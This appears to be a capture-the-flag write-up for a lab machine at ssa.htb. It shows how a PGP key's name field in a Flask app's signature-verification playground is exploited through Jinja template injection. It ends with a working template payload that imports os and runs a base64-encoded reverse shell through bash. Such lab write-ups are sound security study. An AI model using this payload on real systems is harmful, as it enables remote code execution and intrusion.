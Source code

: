 
I went to the website that is being hosted on port 80, and I saw that there is some sort of PGP stuff. Furthermore, I noticed the following URLs:

~~~
https://ssa.htb/login
https://ssa.htb/
https://ssa.htb/pgp # the site's public key
https://ssa.htb/guide # some sort of playground for PGP
https://ssa.htb/contact
https://ssa.htb/guide/verify
https://ssa.htb/about
https://ssa.htb/login?next=%2Fadmin
https://ssa.htb/guide/encrypt
~~~

In the `/guide` endpoint there is some sort of playground for PGP, and while I was playing with it, I have noticed that when I am using the verify signature there is output that looked like pulled from the console.

I’ve enumerated the technologies and versions that the website is using, I found that it used Flask as the main server application and (possibly Flask for the frontend/templating engine).

## ## RCE

When I saw Flask I thought that the application could be using Jinja, so I immediately thought that this could be a potential [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). I had only a single entry point that could give me output which was through `Verify Signature` in the `/guide` endpoint.

Reference Link : https://linuxhint.com/generate-pgp-keys-gpg/
						   https://www.sobyte.net/post/2021-12/modify-gpg-uid-name/

Consequently, we took the initiative to inject a payload into the name attribute to assess the application's susceptibility to SSTI. Employing a straightforward mathematical operation as our payload, we have successfully ascertained that the application is indeed vulnerable to this particular security flaw.

![[Pasted image 20230625043418.png]]


~~~
### Crafting the exploit

The injection point is the `name` of the PGP key, so I’ve generated a key called `mrgod`.
~~~

~~~
gpg --gen-key
~~~

Payload:

~~~
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "echo BASE64-REV | base64 -d | bash" ').read() }}
~~~
